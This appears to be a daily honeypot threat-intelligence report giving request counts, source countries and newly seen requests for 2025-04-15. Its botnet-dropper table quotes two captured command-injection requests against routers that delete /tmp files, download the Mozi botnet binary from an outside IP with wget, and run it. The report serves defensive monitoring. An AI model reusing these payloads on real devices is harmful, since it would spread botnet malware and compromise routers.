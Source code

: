 ```yaml
---
title: "Report: 2025-04-15 "
date: 2025-04-15
desciption: "Report: 2025-04-15" 
tags: [repport, daily]
---
```



# Daily Report: 2025-04-15 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 2 stage 1 IP address(es), linked to 2 dropper URL(s).  

There are 15 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 4186 requests were recorded during the day, originating from 2 different countries, with a peak of 1608 requests coming from SC.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| FR               | Germany            |
| US               | Germany            |
| SG               | Germany            |
| US               | Germany            |
| MY               | Australia          |
| US               | Dubai              |
| CN               | Georgia            |

## botnet_dropper_behaviour
| remote_addr   | request                                                                                                                                                                      |
|:--------------|:-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 117.213.56.22 | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                        |
| 103.42.243.4  | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://192.10.154.54:36670/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0 |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|      |   number_of_occurence | request                                                    |
|-----:|----------------------:|:-----------------------------------------------------------|
|  849 |                     1 | \x00\x0E\x08P\xD2\x8E\xB4\xF5\xA6y\x9A\x00\x00\x00\x00\x00 |
|  850 |                     1 | \x00\x0E8P\xD2\x8E\xB4\xF5\xA6y\x9A\x00\x00\x00\x00\x00    |
|  930 |                     1 | \x00\x0E8\xDE\xE6\xD5+\x90YvO\x00\x00\x00\x00\x00          |
|  944 |                     1 | GET /b5Mx HTTP/1.1                                         |
|  949 |                     1 | GET /nmaplowercheck1744680444 HTTP/1.1                     |
|  959 |                     1 | GET /NmapUpperCheck1744680444 HTTP/1.1                     |
|  964 |                     1 | GET /Nmap/folder/check1744680444 HTTP/1.1                  |
|  987 |                     1 | GET /api/v1.0/environment HTTP/1.1                         |
|  988 |                     1 | GET /cslu/v1/core/conf HTTP/1.1                            |
|  990 |                     1 | GET /admin/reports/updates HTTP/1.1                        |
| 1056 |                     1 | POST /wp-login.php HTTP/1.1                                |
| 1070 |                     1 | \x00\x0E8o\xBA\xE7\xB7\x8D\xC3G\xC8\x00\x00\x00\x00\x00    |
| 1211 |                     1 | \x00\x0E8\xDF@n\xB8\x83\x9Bi\xEB\x00\x00\x00\x00\x00       |
| 1230 |                     1 | \x00\x0E8|\xE6\xF5C\x89o\xF6\xA1\x00\x00\x00\x00\x00       |
| 1250 |                     1 | \x00\x0E8\xAB\x9B\x8A\xD1\xA9#y&\x00\x00\x00\x00\x00       |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                  1608 | SC                 |
|  1 |                   662 | MY                 |
|  2 |                   436 | GB                 |
|  3 |                   366 | NL                 |
|  4 |                   346 | US                 |
|  5 |                   164 | PL                 |
|  6 |                   122 | SG                 |
|  7 |                    69 | BG                 |
|  8 |                    55 | VN                 |
|  9 |                    55 | HK                 |
| 10 |                    53 | DE                 |
| 11 |                    30 | CN                 |
| 12 |                    27 | FR                 |
| 13 |                    25 | AU                 |
| 14 |                    24 | CA                 |
| 15 |                    17 | IL                 |
| 16 |                    13 | CH                 |
| 17 |                    12 | UA                 |
| 18 |                    11 | KR                 |
| 19 |                    10 | PT                 |
| 20 |                     9 | RU                 |
| 21 |                     7 | AO                 |
| 22 |                     7 | IN                 |
| 23 |                     6 | TR                 |
| 24 |                     6 | TW                 |
| 25 |                     5 | ID                 |
| 26 |                     5 | BE                 |
| 27 |                     4 | IE                 |
| 28 |                     4 | IR                 |
| 29 |                     3 | MN                 |
| 30 |                     3 | GH                 |
| 31 |                     3 | AE                 |
| 32 |                     2 | BR                 |
| 33 |                     2 | JP                 |
| 34 |                     2 | MC                 |
| 35 |                     1 | RS                 |
| 36 |                     1 | GE                 |
| 37 |                     1 | NI                 |
| 38 |                     1 | IT                 |
| 39 |                     1 | MD                 |
| 40 |                     1 | NP                 |
| 41 |                     1 | LT                 |
| 42 |                     1 | NG                 |
| 43 |                     1 | EC                 |
| 44 |                     1 | PA                 |
| 45 |                     1 | GR                 |
| 46 |                     1 | AR                 |
| 47 |                     1 | ZA                 |
